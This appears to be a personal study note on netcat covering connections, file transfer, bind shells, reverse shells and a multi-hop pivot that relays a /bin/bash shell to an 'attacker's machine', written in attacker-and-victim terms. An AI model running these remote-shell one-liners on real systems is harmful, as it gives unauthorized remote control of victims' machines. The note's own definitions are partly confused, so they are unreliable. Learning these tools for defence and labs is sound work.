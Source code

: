 # Netcat Learning
nc
<br><br>
examples:
<br>
nc -v google.com 80
<br><br>
Netcat listening:
<br>
nc -vlp 1234
<br><br>
Netcat connecting:
<br>
nc -nv 127.0.0.1


------------------------


#nc -v google.com 80
<now connected to google, we will execute the command>
GET \

-
terminal 1 - server
terminal 2 - client
-

terminal 1:
nc -vlp 1234

terminal 2:
nc -nv 127.0.0.1 (n - no dns and connected now we can message each terminal)

-

terminal 1:
nc -lvp 1234 < test.txt (when connection is successful, content in the file will be displayed to client)

terminal 2:
nc -nv 127.0.0.1 1234

-

terminal 1:
nc -lvp 1234 < test.txt

terminal 2:
nc -nv 127.0.0.1 1234 > sample.txt (it will get the test.txt file and save it as sample.txt)

-
(bind shell) - if client request to server and client get shell means - it is bind shell
in attack basis, server will be running on victim, if i request for connection, i will get shell of victim.
If I try to connect and I get shell means - it is bind shell

terminal 1:
nc -lvp 1234 -e cmd.exe

terminal 2:
nc -nv 127.0.0.1 1234 (will get terminal 1 cmdline in terminal 2)

-

(reverse shell) - if any request to the server, server will get shell means - bind shell
in attack basis, i running a server, when victim beacons to my server, i get shell.
If victim connects to me and I get shell means - is it reverse shell

terminal 1:
nc -lvp 1234

terminal 2:
nc 127.0.0.1 1234 -e cmd.exe

-

pivoting: (geting access to terminal 3 through terminal 2 from terminal 1 and get output in terminal 4 [attacker's machine listening port 5555])
we dont have direct access to terminal 3, so we pivoting through terminal 2

Terminal 4: (attacker machine with listen on different port - ubuntu on port 5555)
nc -lvp 5555

Terminal 3: (pivoted from target - parrot)
nc -lvp 4444 -e /bin/bash

Terminal 2: (target - kali)
nc -lvp 1234 | nc 192.168.31.1 4444(pivotable machine) | nc 192.168.31.76 5555

Terminal 1: (attacker machine - ubuntu to execute commands)
nc -nv 192.168.31.31 1234 (target machine) - we will execute commands in terminal 1 that will reflect in terminal 4
